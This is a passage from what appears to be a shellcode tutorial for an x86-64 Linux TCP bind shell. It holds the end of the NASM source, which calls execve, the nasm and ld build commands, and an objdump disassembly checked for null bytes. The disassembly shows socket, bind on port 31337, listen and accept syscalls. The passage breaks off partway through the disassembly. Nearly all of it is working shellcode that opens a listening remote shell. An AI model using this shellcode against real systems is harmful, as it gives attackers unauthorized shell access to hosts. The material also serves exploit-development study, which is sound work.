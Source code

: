 ```nasm	
    pop    rdi
    push   0x3b
    pop    rax
    syscall 
```
To build the code:
```
$ nasm -felf64 -o tcpbindshell.o tcpbinshell.asm
$ ld -o tcpbindshell tcpbindshell.o
```
Check for nulls:
```
$ objdump -D tcpbindshell -M intel
	
tcpbindshell:     file format elf64-x86-64
Disassembly of section .text:
 
0000000000400080 <_start>:
  400080:   48 31 c0                xor    rax,rax
  400083:   48 31 ff                xor    rdi,rdi
  400086:   48 31 f6                xor    rsi,rsi
  400089:   48 31 d2                xor    rdx,rdx
  40008c:   4d 31 c0                xor    r8,r8
  40008f:   6a 02                   push   0x2
  400091:   5f                      pop    rdi
  400092:   6a 01                   push   0x1
  400094:   5e                      pop    rsi
  400095:   6a 06                   push   0x6
  400097:   5a                      pop    rdx
  400098:   6a 29                   push   0x29
  40009a:   58                      pop    rax
  40009b:   0f 05                   syscall 
  40009d:   49 89 c0                mov    r8,rax
  4000a0:   4d 31 d2                xor    r10,r10
  4000a3:   41 52                   push   r10
  4000a5:   41 52                   push   r10
  4000a7:   c6 04 24 02             mov    BYTE PTR [rsp],0x2
  4000ab:   66 c7 44 24 02 7a 69    mov    WORD PTR [rsp+0x2],0x697a
  4000b2:   48 89 e6                mov    rsi,rsp
  4000b5:   41 50                   push   r8
  4000b7:   5f                      pop    rdi
  4000b8:   6a 10                   push   0x10
  4000ba:   5a                      pop    rdx
  4000bb:   6a 31                   push   0x31
  4000bd:   58                      pop    rax
  4000be:   0f 05                   syscall 
  4000c0:   41 50                   push   r8
  4000c2:   5f                      pop    rdi
  4000c3:   6a 01                   push   0x1
  4000c5:   5e                      pop    rsi
  4000c6:   6a 32                   push   0x32
  4000c8:   58                      pop    rax
  4000c9:   0f 05                   syscall 
  4000cb:   48 89 e6                mov    rsi,rsp
  4000ce:   48 31 c9                xor    rcx,rcx
  4000d1:   b1 10                   mov    cl,0x10
  4000d3:   51                      push   rcx
  4000d4:   48 89 e2                mov    rdx,rsp
  4000d7:   41 50                   push   r8
  4000d9:   5f                      pop    rdi
  4000da:   6a 2b                   push   0x2b
  4000dc:   58                      pop    rax
  4000dd:   0f 05                   syscall 
  4000df:   59                      pop    rcx
```